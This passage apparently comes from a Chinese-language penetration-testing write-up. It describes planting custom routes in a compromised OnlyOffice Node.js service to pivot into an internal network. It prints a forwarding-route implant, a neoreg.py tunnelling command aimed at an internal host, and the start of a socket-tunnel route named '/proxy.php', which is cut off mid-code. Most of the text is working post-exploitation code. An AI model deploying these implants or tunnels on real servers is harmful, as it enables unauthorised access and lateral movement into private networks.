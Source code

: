 ```javascript
        body += chunk;
       });

       response.on('end', function () {
        var headers = response.headers
        if ('set-cookie' in headers) {
         var set = headers['set-cookie'];
         headers['set-cookie'][0] = set[0].substring(0, set[0].indexOf('Path=/') + 6);
        }
        res.set(headers)
        return res.end(body);
       });
      }

      let requests = http.request(options, callback);
      requests.write(body);
      requests.end();
     } catch (e) {
      return res.end(e.message);
     }
    })
   }
  })
```

新增forward路由后，重启OnlyOffice服务，通过以下命令成功代理到了目标内网。

```nginx
python3 neoreg.py -u http://onlyofficeHost/forward -k pass -p 8888 -H "forwardHost: NCHOST" -H "forwardPort: 9081" -H "forwardPath: /uri.jsp"
```

项目结束后，问了下 purpleroc 大佬，直接帮我解决了Bug，直接完善了方案1，通过新增如下的路由，重启服务后可直接实现代理。

```javascript
function StrTr(input, frm, to){
  var r = "";
  for(i=0; i<input.length; i++){
    index = frm.indexOf(input[i]);
    if(index != -1){
      r += to[index];
    }else{
      r += input[i];
    }
  }
  return r;
}

var net = require('net');

sessions = {}

const delay = ms => new Promise(resolve => setTimeout(resolve, ms))

router.all('/proxy.php', function(req, res) {

  const writebuffunc = async (session, mark) => {
    writebuf = "writebuf" + mark;
    readbuf = "readbuf" + mark;
    tcphandle = "tcphandle" + mark;
    run = "run" + mark;
    while (session[run]) {
      
      
        
```